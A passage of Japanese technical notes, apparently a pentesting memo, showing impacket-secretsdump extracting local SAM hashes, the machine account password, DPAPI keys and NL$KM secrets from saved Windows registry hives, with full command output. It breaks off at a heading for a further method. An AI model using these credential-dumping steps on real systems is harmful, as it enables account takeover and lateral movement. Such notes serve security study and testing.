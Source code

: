 ```shell
# 復号
$ impacket-secretsdump -sam ./sam -system ./system local
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:98d3a787a80d08385cea7fb4aa2a4261:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
```

system とともに security ファイルを使うと、AD 関係も出る

```shell
$ impacket-secretsdump -sam ./sam -system ./system -security ./security local
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:98d3a787a80d08385cea7fb4aa2a4261:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC:plain_password_hex:7f35fbbe300ba02984779245168bed11a30d4ef5ffcc8e61d0f3f405d5b8a957f32a25f95f74d7eb3f14cde92196d6c859178b79ae4dc288570984b1872f2b184495d280f69024577937dd7957199f91d8990f535bc25471488084b075772e0e40a2cb873850372e8415d2744edb2911f9369eaf787b53c714f82a25c918f06525d32284a9a47b9293349a49e9fc76563235e3f28a12c330e1260a67ce0828768174f455fd7be40a5c8d70228a6b27ea7cd8da090be54e89095b211b6321ecb2482495248f590c05fd549d4ec6996769b2de7620c9a106a2e6fb8c7b14869d4c0f102bb76ddfd2f36ecfd4b271da062d
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:443e64439d4b7fe780da17fc04a3942a
[*] DPAPI_SYSTEM
dpapi_machinekey:0x0e88ce11d311d3966ca2422ac2708a4d707e00be
dpapi_userkey:0x8b68be9ef724e59070e7e3559e10078e36e8ab32
[*] NL$KM
 0000   8D D2 8E 67 54 58 89 B1  C9 53 B9 5B 46 A2 B3 66   ...gTX...S.[F..f
 0010   D4 3B 95 80 92 7D 67 78  B7 1D F9 2D A5 55 B7 A3   .;...}gx...-.U..
 0020   61 AA 4D 86 95 85 43 86  E3 12 9E C4 91 CF 9A 5B   a.M...C........[
 0030   D8 BB 0D AE FA D3 41 E0  D8 66 3D 19 75 A2 D1 B2   ......A..f=.u...
NL$KM:8dd28e67545889b1c953b95b46a2b366d43b9580927d6778b71df92da555b7a361aa4d8695854386e3129ec491cf9a5bd8bb0daefad341e0d8663d1975a2d1b2
[*] Cleaning up...
```

#### 3.レジストリハイブを使用する方法

管理者権限のコマンドプロンプトで
